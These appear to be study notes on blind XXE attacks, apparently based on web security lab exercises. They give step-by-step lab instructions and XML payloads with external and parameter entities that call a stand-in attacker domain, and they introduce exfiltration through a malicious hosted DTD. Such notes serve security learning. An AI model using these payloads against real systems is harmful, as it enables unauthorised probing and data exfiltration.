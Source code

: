 ### Detecting blind XXE using out-of-band (OAST) techniques
For example, you would define an external entity as follows:
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`
You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server:
to make a back-end HTTP request to the specified URL
=>
The attacker can monitor for -->   the resulting DNS lookup and HTTP request, 
                             and thereby detect that the XXE attack was successful

#### Blind XXE with out-of-band interaction
- Visit a product page, click "Check stock" 
- intercept the resulting POST request in Burp
- insert between the XML declaration and the `stockCheck` element:
  `<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>`
- select the BURP-COLLABORATOR-... string > right click > Insert Collaborator Payload
- change the `productId` value to `%xxe;`
- send the packet
- check the collaborator for DNS packet

#### Blind XXE with out-of-band interaction via XML parameter entities
Sometimes XXE attacks using regular entities are blocked:
due to -->   some input validation by the app or some hardening of the XML parser that is being used. 
=>
In this situation, you might be able to use -->  XML parameter entities instead. 
XML parameter entities:
- are a special kind of XML entity 
- which can only be referenced elsewhere within the DTD
=>
For present purposes, you only need to know 2 things: 
1) the declaration of an XML parameter entity includes the percent character before the entity name:
   `<!ENTITY % myparameterentity "my parameter entity value" >`

2) parameter entities are referenced using the percent character instead of the usual ampersand:
   `%myparameterentity;`
=>
This means that you can test for blind XXE:
using out-of-band detection via XML parameter entities as follows:
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload:
- declares an XML parameter entity called `xxe` 
- then uses the entity within the DTD. 
- This will cause a DNS lookup and HTTP request to the attacker's domain
- verifying that the attack was successful

### Exploiting blind XXE to exfiltrate data out-of-band
What an attacker really wants to achieve is to -->  exfiltrate sensitive data
=>
This can be achieved via a blind XXE vulnerability:
but it involves the attacker:
- hosting a malicious DTD on a system that they control
- then invoking the external DTD from within the in-band XXE payload.
